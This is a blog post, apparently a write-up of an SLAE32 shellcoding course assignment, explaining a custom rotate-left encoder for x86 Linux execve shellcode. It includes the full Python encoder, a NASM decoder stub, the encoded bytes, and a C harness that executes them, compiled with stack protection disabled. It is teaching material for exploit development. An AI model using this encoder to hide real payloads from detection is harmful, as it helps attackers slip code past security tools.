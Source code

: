 ```yaml
---
title: SLAE32 Assignment 4 -- Rotation Encoder
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - rotate
  - Encoder
  - Decoder
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
## Overview
For my fourth assignment in the SLAE32 course, I created a custom Rotation Encoder.   
How this works is to encode the payload, it rotates every bit to the left by one. If the greatest bit (valued 128) falls off the left, it wraps around to the lowest bit (valued 1). To decode, all the bits are rotated to the right by one. If there is a low bit, it is moved to the highest bit.  
#### Encode 
![](/assets/images/rotateLeft.png)  
#### Decode
![](/assets/images/rotateRight.png)   
## Encrypting the Payload
The payload used for this example is the `execve` shellcode provided in the SLAE course.  

### Grabbing the Payload Shellcode
+ To quickly grab the hex from shellcode, I used the method shown in the SLAE course.   
+ To make it easier, I added it to a shellscript.  
```bash
#!/bin/bash
# Filename: objdump2hex.sh
# Author:   boku
OBJFILE=$1
objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file'\
| cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' \
| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s \
| sed 's/^/"/' | sed 's/$/"/g'
```

### Using the Bash Script to get the Shellcode
```bash
root@zed# ./objdump2hex.sh execve-stack 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Perfect. Now we will need to encode this shellcode using our Python Encoder `rotateLeftEncoder.py`.  
+ The new encoded shellcode is output in both the `\x` format and the `0x, ` format.  
+ As you can see in the top section, all that needs to be done to change the shellcode payload is replace the string in the `shellcode` array.  

### Python Encoder

```python
#!/usr/bin/python
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62"
shellcode += "\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1"
shellcode += "\xb0\x0b\xcd\x80"
encoded1 = ""
encoded2 = ""
for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded1 += '\\x'
        encoded1 += '%02x' %x   # Add the rotated left hex to string 
        encoded2 += '0x'
        encoded2 += '%02x,' %x  # Add the rotated left hex to string 
    else:
        encoded1 += '\\x'       # No leftmost bit, just rotate
        encoded1 += '%02x' %(x << 1)
        encoded2 += '0x'        # No leftmost bit, just rotate
        encoded2 += '%02x,' %(x << 1)
print encoded1
print encoded2
print 'Len: %d' % len(bytearray(shellcode))
```

#### Outputting Our Encoded Shellcode

```bash
root# python rotateLeftEncoder.py
\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e\xc4\xd2\xdc
\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01                   

0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,\
0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,\
0x16,0x9b,0x01
Len: 25
```

+ Our encoded shellcode payload is 25 bytes. 
+ We will need to add a final byte to the end `\xff`.  
  - This byte will be used by our decoder to let it know it has reached the end of our payload.  

We will copy the second output with the "0x, " format to our nasm program after appending the byte.  

This assembly program will use the Jump-Call-Pop technique to save the memory location of our string to the stack and then pop that address into the ESI Register.   Once in the ESI Register, we will decode our encoded shellcode byte-by-byte, using the instructions `ror byte [esi], 1` and `inc esi`. 
+ `ror byte [esi], 1` 
  - rotate to the right one bit, one byte at a time, 
+ If the decoded byte is `\xff` then we will jump to the shellcode using the instruction `je Shellcode`.  
+ If the byte is not `\xff` then the zero flag will not be set, and that jump will be ignored.   

The next instruction `jmp short decode` is an unconditional jump. We use this to create the loop to decode our shellcode.  

```nasm
; Filename: rotateRightDecoder.nasm
; Author:   boku

global _start

section .text
_start:
  jmp short call_decoder

decoder:
  pop esi

decode:
  ror byte [esi], 1
  cmp byte [esi], 0xFF
  je Shellcode
  inc esi
  jmp short decode
        
call_decoder:
  call decoder
  Shellcode: db 0x62,0x81,0xa0,0xd0,0x5e,0x5e,\
      0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,\
      0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,\
      0x16,0x9b,0x01,0xff
```

Now that both the decoder and encoder are created, the last thing to do is compile and test.  

To compile my Assembly code I used the NASM Compiler with these commands. After creating the object file with NASM, I linked the object file using `ld`.  

```bash
nasm -f elf32 rotateRightDecoder.nasm -o rotateRightDecoder.o
ld -o rotateRightDecoder rotateRightDecoder.o
```

I tested the shellcode using the C program shown in the SLAE course.   
After extracting the shellcode using the above bash script, I added it to the C program as the `code[]` array.  

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01\xff";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

To speed up compilation while developing my custom rotation encoder, I created a simple bash script to automate the process.

```bash
#!/bin/bash
SHELLCODE=$1
gcc -fno-stack-protector -z execstack -o shellcode $(pwd)/${SHELLCODE}
```
